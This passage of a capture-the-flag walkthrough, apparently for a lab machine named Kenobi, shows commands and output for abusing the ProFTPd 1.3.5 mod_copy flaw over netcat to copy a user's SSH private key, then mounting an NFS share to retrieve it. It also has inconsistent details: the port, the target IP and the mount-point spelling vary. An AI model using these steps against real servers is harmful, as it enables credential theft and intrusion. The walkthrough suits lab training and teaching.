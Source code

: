 PORT    STATE SERVICE
111/tcp open  rpcbind
| nfs-showmount: 
|_  /var *

Nmap done: 1 IP address (1 host up) scanned in 5.26 seconds</code></pre>
<br><br>


As we previously discovered with nmap, port 111 is running ProFTPd version 1.3.5, so using Searchexploit we are going to see if this version has any vulnerability, we can see that ProFTPd 1.3.5 has a vulnerability which allows us to copy files/directories from one place to another on the server. Any unauthenticated client can exploit these commands to move files from any part of the file system, this is how we are going to get the id_rsa file.
<pre><code>~> searchsploit ProFTPd 1.3.5
------------------------------------------------------------------ ---------------------------------
 Exploit Title                                                    |  Path
------------------------------------------------------------------ ---------------------------------
ProFTPd 1.3.5 - 'mod_copy' Command Execution (Metasploit)         | linux/remote/37262.rb
ProFTPd 1.3.5 - 'mod_copy' Remote Command Execution               | linux/remote/36803.py
ProFTPd 1.3.5 - 'mod_copy' Remote Command Execution (2)           | linux/remote/49908.py
ProFTPd 1.3.5 - File Copy                                         | linux/remote/36742.txt
------------------------------------------------------------------ ---------------------------------
Shellcodes: No Results</code></pre>
<br><br>

Let's connect to the target machine and move the id_rsa file to /tmp/.
<pre><code>~> nc 10.10.231.175 21</code></pre>
<pre><code> </code>~> SITE CPFR /home/kenobi/.ssh/id_rsa
350 File or directory exists, ready for destination name</pre>
<pre><code>~> SITE CPTO /var/tmp/id_rsa
250 Copy successful</code></pre>
<br><br>

Now let's mount NFS share locally.
<pre><code>/mnt> sudo mkdir /mnt/kenobiNSF</code></pre>
<pre><code>sudo mount 10.10.180.178:/var /mnt/kenobiNFS</code></pre>
<pre><code></code>~/kenobi> ls -la /mnt/kenobiNSF/tmp/
total 28
drwxrwxrwt  6 root root 4096 may  9 03:00 ./
drwxr-xr-x 14 root root 4096 sep  4  2019 ../
-rw-r--r--  1 maxi maxi 1675 may  9 03:00 id_rsa
drwx------  3 root root 4096 sep  4  2019 systemd-private-2408059707bc41329243d2fc9e613f1e-systemd-timesyncd.service-a5PktM/
drwx------  3 root root 4096 sep  4  2019 systemd-private-6f4acd341c0b40569c92cee906c3edc9-systemd-timesyncd.service-z5o4Aw/
drwx------  3 root root 4096 may  9 02:17 systemd-private-aa4435dcdd804e81af1fe0ab6786e412-systemd-timesyncd.service-Btl8xi/
drwx------  3 root root 4096 sep  4  2019 systemd-private-e69bbb0653ce4ee3bd9ae0d93d2a5806-systemd-timesyncd.service-zObUdn/</pre>
<br><br>
Now that we have access to the id_rsa file we have to copy it to our working directory.
<pre><code>cp /mnt/kenobiNSF/tmp/id_rsa /home/Arch/kenobi/</code></pre>
<br><br>
